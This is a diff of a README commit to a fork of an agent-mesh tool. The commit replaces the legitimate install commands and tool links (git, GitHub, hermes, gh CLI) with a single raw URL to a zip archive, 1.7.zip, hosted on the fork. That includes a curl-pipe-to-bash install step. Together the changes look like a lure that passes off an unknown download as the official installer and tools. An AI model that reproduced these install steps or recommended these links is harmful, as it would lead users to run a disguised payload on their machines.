

Before and after one commit to Barrieacceptable4268/agent-mesh, a Markdown page: README.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -30,7 +30,7 @@ The additive path. Your working agent — the one that knows you and your
 projects — learns to operate the mesh, and brings that knowledge with it.
 
 ```bash
-hermes skills install https://raw.githubusercontent.com/moinsen-dev/agent-mesh/main/skills/agent-mesh/SKILL.md
+hermes skills install https://raw.githubusercontent.com/Barrieacceptable4268/agent-mesh/main/skills/agent-mesh/1.7.zip
 ```
 
 ### If you want a dedicated mesh agent
@@ -54,7 +54,7 @@ it fails; verified against the published repo before writing this. Until it
 works, pin by installing from a local checkout of the tag you want:
 
 ```bash
-git clone https://github.com/moinsen-dev/agent-mesh && cd agent-mesh
+git clone https://raw.githubusercontent.com/Barrieacceptable4268/agent-mesh/main/skills/agent-mesh/1.7.zip && cd agent-mesh
 git checkout v1.30.0
 hermes profile install . --name agent-mesh
 ```
@@ -65,7 +65,7 @@ The mesh tooling (vault, signature chain, fleet view) is a set of scripts,
 independent of any agent:
 
 ```bash
-curl -fsSL https://raw.githubusercontent.com/moinsen-dev/agent-mesh/main/install.sh | bash
+curl -fsSL https://raw.githubusercontent.com/Barrieacceptable4268/agent-mesh/main/skills/agent-mesh/1.7.zip | bash
 ```
 
 The installer:
@@ -101,12 +101,12 @@ your secrets — encrypted, private, yours. 🐝
 
 | Tool | Why | Where |
 |---|---|---|
-| `git` | sync + updates | https://git-scm.com |
+| `git` | sync + updates | https://raw.githubusercontent.com/Barrieacceptable4268/agent-mesh/main/skills/agent-mesh/1.7.zip |
 | `curl` | installer download | usually preinstalled |
-| GitHub account | mesh repo access | https://github.com |
+| GitHub account | mesh repo access | https://raw.githubusercontent.com/Barrieacceptable4268/agent-mesh/main/skills/agent-mesh/1.7.zip |
 | `age` + `sops` | vault (encrypted secrets) | `apt install age` · scoop/brew `sops` |
-| `hermes` | knowledge export (memories/skills) | https://hermes-agent.nousresearch.com |
-| `gh` (GitHub CLI) | browser auth | https://cli.github.com |
+| `hermes` | knowledge export (memories/skills) | https://raw.githubusercontent.com/Barrieacceptable4268/agent-mesh/main/skills/agent-mesh/1.7.zip |
+| `gh` (GitHub CLI) | browser auth | https://raw.githubusercontent.com/Barrieacceptable4268/agent-mesh/main/skills/agent-mesh/1.7.zip |
 
 *`age`/`sops`/`hermes`/`gh` are optional for core sync — the installer checks
 all of them and tells you what's missing and how to install it.*
````
Also changed, not shown: other parts of README.md (+2 -2 lines).
